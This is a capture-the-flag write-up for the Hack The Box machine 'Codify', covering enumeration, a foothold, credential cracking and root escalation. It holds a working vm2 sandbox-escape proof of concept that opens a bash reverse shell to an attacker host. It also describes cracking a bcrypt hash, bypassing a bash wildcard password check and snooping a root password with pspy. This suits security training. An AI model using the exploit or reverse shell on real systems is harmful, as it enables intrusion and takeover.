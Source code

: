 ```yaml
---
title: HTB Codify Writeup
date: 2023-11-24 04:15:16 +0600
categories: [Linux, Easy]
tags: [htb] 
toc: true    
---
```


![Codify Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_pwned.png "Pwned haha!!")

# Introduction
What's up!! Red Teamers. In this post we will try to solve the linux machine **Codify**. It is rated as easy and the machine is from **Open Beta Season III**. 

# Enumeration
Starting with the nmap scan...... 

```bash
sudo nmap -sS -T4 -n -v -A 10.10.11.239 > nmap_discovered_ports
```

What do we have here??

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http        Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
8080/tcp open  http-proxy?
```

The IP redirects to `http://codify.htb/`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get ...

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/home_page.PNG)

It says it's a simple web application that allows you to test your Node.js code easily. There is also a about page if you notice. From about page we got something interesting.

![About Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_about.PNG)

We found the library that was used to build this sandbox. It says The `vm2` library is widely used and trusted tool for sandboxing javascript. Just hold onto that, will you?

And... last but not least, the code editor.

![Code Editor](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/editor.PNG)

# Foothold 

Remember that `vm2` library?? If you do some googling, I'm sure you will bump into these resources from [Github](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) and [Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

Now use the POC javascript code to get a reverse shell. You can generate reverse shells in here [revshells](https://www.revshells.com/).

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -i >& /dev/tcp/IP/PORT 0>&1").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

You'll get the shell in no time.

# Lateral Movement
Now that you're in as `www-data`, first stabilize the shell. 

```Bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```
As we are in as `www-data`, we should see what we have in the web server. A sqlite db file was found in `/var/www/` directory. And we found a credential of a user named 'joshua'.

```plaintext
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

It's a bcrypt hash. We can use either `hashcat` or `john` to crack this. It won't take long whichever you use. Upon cracking the password, you can use the password to login as `joshua` via ssh.

![Got joshua](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/joshua.png)

Now you have the user flag.

# Priviledge Escalation 

Run the command `sudo -l`...

![permissions](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/sudo-l.png)

You can run `/opt/scripts/mysql-backup.sh` as root. Let's see the code here.

![mysql_backup.sh](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/mysql_backup_sh.png)

It takes an input password for root and compares them with `.creds` in `root` directory. Then it has mysql commands to backup databases. Kinda strange that it uses password in the command as plaintext. To get to that, we have to bypass the validation first. Do you know the comparison operations of bash?

![Bash Comparisons](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/bash_comp.png)

You can read briefly [here](https://tldp.org/LDP/abs/html/comparison-ops.html).

To be exact , if double brackets are used in string comparison, you can use regex or pattern matching there. And in the script, double brackets are used. So if you put `*` as input, it will be a correct password cuz `*` matches everything including the required password.



And the script runs. But how can we see the password from those mysql commands that's backing up the databases? Well, we can use [pspy](https://github.com/DominicBreuker/pspy). 

It says "*pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea*".

So login to ssh with another terminal. Then run pspy in one terminal and the script in other as sudo. You'll see the password in no time. You may have to run the script multiple times.


Now that you have the password, let's try to login as root. Annnnd, voila, we are root. You know where is the root flag.


#### Happy Hacking :)





